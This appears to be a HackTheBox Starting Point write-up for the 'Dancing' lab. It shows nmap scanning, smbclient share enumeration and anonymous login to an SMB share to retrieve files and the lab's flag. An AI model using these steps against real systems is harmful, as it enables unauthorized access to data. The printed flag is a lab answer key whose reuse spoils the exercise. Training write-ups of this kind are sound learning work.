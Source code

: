 HackTheBox Dancing Box
Starting Point
2024-11-08

## Lab Setup

Downloaded OpenVPN file
Connected from Kali using command `openvpn /mnt/C/Users/Jonathan/Downloads/starting_point_jcaruso.ovpn`
VPN is not running as daemon
Opened second terminal and ran `kali`
Pinged 10.129.67.144 to confirm connectivity

`ping 10.129.67.144`
PING 10.129.67.144 (10.129.67.144) 56(84) bytes of data.
64 bytes from 10.129.67.144: icmp_seq=1 ttl=127 time=46.2 ms
64 bytes from 10.129.67.144: icmp_seq=2 ttl=127 time=47.2 ms
64 bytes from 10.129.67.144: icmp_seq=3 ttl=127 time=1371 ms
64 bytes from 10.129.67.144: icmp_seq=4 ttl=127 time=316 ms
64 bytes from 10.129.67.144: icmp_seq=5 ttl=127 time=49.8 ms
64 bytes from 10.129.67.144: icmp_seq=6 ttl=127 time=45.9 ms
64 bytes from 10.129.67.144: icmp_seq=7 ttl=127 time=52.2 ms
^C
--- 10.129.67.144 ping statistics ---
7 packets transmitted, 7 received, 0% packet loss, time 6062ms
rtt min/avg/max/mdev = 45.857/275.378/1370.873/456.647 ms, pipe 2

SMB = Server Message Block
Port 445 TCP
SMB storage = share
Transport layer for Microsoft SMB most often used with is NetBIOS over TCP/IP (NBT) port 139

Usually requires credentials
Can allow login with guest accounts or anonymous accounts if configured insecurely

## Enumeration

### Port scanning with nmap

`sudo nmap -sV 10.129.67.144`

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-08 12:29 EST
Nmap scan report for 10.129.67.144
Host is up (0.051s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

### Listing shares with smbclient

`smbclient -L 10.129.67.144`
Password for [WORKGROUP\****]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.67.144 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

Trying to connect to ADMIN$ and C$

`smbclient \\\\10.129.67.144\\ADMIN$`
Password for [WORKGROUP\****]:
tree connect failed: NT_STATUS_ACCESS_DENIED

`smbclient \\\\10.129.67.144\\C$`
Password for [WORKGROUP\****]:
tree connect failed: NT_STATUS_ACCESS_DENIED

## Foothold

`smbclient \\\\10.129.67.144\\WorkShares`
Password for [WORKGROUP\****]:
Try "help" to get a list of possible commands.
smb: \>

Successful connection to WorkShares with no password

### Listing directories and files

smb: \> `ls`
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
  
### Downloading available files

smb: \> `cd Amy.J\`
smb: \Amy.J\> `get worknotes.txt`
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.5 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \Amy.J\> `cd ..`
smb: \> cd James.P\
smb: \James.P\> `dir`
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1733376 blocks available
smb: \James.P\> `get flag.txt`
getting file \James.P\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> `exit`

## Flag Captured!

`cat worknotes.txt`
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing
`cat flag.txt`
5f61c10dffbc77a704d76016a22f1664